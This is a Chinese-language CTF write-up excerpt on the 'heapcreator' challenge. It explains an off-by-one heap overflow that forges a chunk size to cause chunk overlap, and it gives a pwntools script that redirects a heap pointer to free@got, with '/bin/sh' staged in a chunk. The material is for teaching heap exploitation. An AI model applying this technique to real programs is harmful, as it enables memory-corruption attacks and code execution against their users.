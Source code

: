 ### 利用

基本利用思路如下

1. 利用off by one 漏洞覆盖下一个chunk 的 size 字段，从而构造伪造的 chunk 大小。
2. 申请伪造的 chunk 大小，从而产生 chunk overlap，进而修改关键指针。

更加具体的还是直接看脚本吧。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

r = process('./heapcreator')
heap = ELF('./heapcreator')
libc = ELF('./libc.so.6')


def create(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)


def edit(idx, content):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))
    r.recvuntil(":")
    r.sendline(content)


def show(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))


def delete(idx):
    r.recvuntil(":")
    r.sendline("4")
    r.recvuntil(":")
    r.sendline(str(idx))


free_got = 0x602018
create(0x18, "dada")  # 0
create(0x10, "ddaa")  # 1
# overwrite heap 1's struct's size to 0x41
edit(0, "/bin/sh\x00" + "a" * 0x10 + "\x41")
# trigger heap 1's struct to fastbin 0x40
# heap 1's content to fastbin 0x20
delete(1)
# new heap 1's struct will point to old heap 1's content, size 0x20
# new heap 1's content will point to old heap 1's struct, size 0x30
# that is to say we can overwrite new heap 1's struct
# here we overwrite its heap content pointer to free@got
create(0x30, p64(0) * 4 + p64(0x30) + p64(heap.got['free']))  #1
```